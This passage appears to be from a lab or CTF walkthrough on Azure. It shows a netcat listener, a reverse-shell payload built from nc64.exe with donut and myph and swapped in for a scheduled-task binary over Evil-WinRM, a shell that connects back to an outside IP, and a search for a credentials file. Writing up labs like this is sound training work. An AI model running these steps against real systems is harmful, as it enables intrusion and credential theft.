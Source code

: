 We can use any C2 during real engagements (sliver, havoc etc.). In this case we work with `netcat`. Deploy listener on EC2 (or Azure VM)
```
root@ip-172-31-21-144:/home/ubuntu# nc -lvnp 443
Listening on 0.0.0.0 443
```
Create a binary. In this case, we used [donut](https://github.com/TheWover/donut) to create a shellcode from `nc64.exe` with parameters
```
└─$ ~/tools/red-team/c2-toolkit/donut -i ~/tools/red-team/c2-toolkit/nc64.exe  -p '54.227.84.188 443 -e cmd' -o pscp.bin 
```
Now we can create a executable/loader from shellcode using [myph](https://github.com/matro7sh/myph)
```
└─$ myph --shellcode pscp.bin --out pscp
```

Now upload the binary
```
*Evil-WinRM* PS C:\DownloadSecurityReports> rm pscp.exe
*Evil-WinRM* PS C:\DownloadSecurityReports> upload /home/kali/pwnedlabs/azure/foothold.exe pscp.exe
                                        
Info: Uploading /home/kali/pwnedlabs/azure/foothold.exe to C:\DownloadSecurityReports\pscp.exe
                                        
Data: 21230932 bytes of 21230932 bytes copied
                                        
Info: Upload successful!
```

Now we have to make sure everyone has access to the file
```
*Evil-WinRM* PS C:\DownloadSecurityReports> cmd /c "icacls pscp.exe /grant Everyone:(RX)"
processed file: pscp.exe
Successfully processed 1 files; Failed processing 0 files
*Evil-WinRM* PS C:\DownloadSecurityReports> cmd /c "icacls.exe pscp.exe"
pscp.exe Everyone:(RX)
         NT AUTHORITY\Authenticated Users:(I)(M)
         NT AUTHORITY\SYSTEM:(I)(F)
         BUILTIN\Administrators:(I)(F)
         BUILTIN\Users:(I)(RX)

Successfully processed 1 files; Failed processing 0 files
```

After few minutes, we receive connection, which confirms that binary was run as a scheduled task
```
root@ip-172-31-21-144:/home/ubuntu# nc -lvnp 443
Listening on 0.0.0.0 443
Connection received on 20.127.161.82 65351
Microsoft Windows [Version 10.0.20348.2762]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
security-direct\james_local

C:\Windows\system32>

```
Let's check out common locations that the user could save files, like their desktop. We see a `login.txt` with cloud credentials for the International Asset Management security director
```
C:\Users\james_local\Desktop>dir
dir
 Volume in drive C is Windows
 Volume Serial Number is BE2B-CC38

```